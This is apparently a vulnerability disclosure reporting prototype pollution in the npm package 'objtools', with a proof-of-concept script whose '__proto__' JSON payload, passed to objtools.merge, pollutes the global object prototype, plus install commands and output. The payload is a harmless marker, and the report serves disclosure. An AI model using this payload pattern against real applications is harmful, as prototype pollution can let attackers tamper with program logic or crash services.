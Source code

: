 # Description

`objtools` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var objtools = require("objtools")
const payload = JSON.parse('{"__proto__":{"polluted":"Yes! Its Polluted"}}');
var obj = {}
console.log("Before : " + {}.polluted);
objtools.merge(obj, payload);
console.log("After : " + {}.polluted);
```


2. Execute the following commands in terminal:

```
npm i objtools # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
